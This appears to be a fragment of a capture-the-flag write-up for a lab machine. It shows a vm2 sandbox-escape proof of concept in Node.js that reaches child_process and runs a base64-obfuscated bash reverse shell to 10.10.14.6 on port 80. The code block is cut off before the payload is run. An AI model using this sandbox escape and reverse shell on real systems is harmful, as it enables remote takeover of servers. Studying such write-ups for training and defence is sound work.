 ![](img/codify4.png)

![](img/codify5.png)
Goal now is to get a shell.

*reverse shell POC*:

```shell
const { VM } = require("vm2");
const vm = new VM();

const code = `
  const err = new Error();
  err.name = {
    toString: new Proxy(() => "", {
      apply(target, thiz, args) {
        const process = args.constructor.constructor("return process")();
        throw process.mainModule.require("child_process").execSync("echo YmFzaCAtaSA+JiAvZGV2L3RjcC8xMC4xMC4xNC42LzgwIDA+JjE=|base64 -d|bash").toString();
      },
    }),
  };
```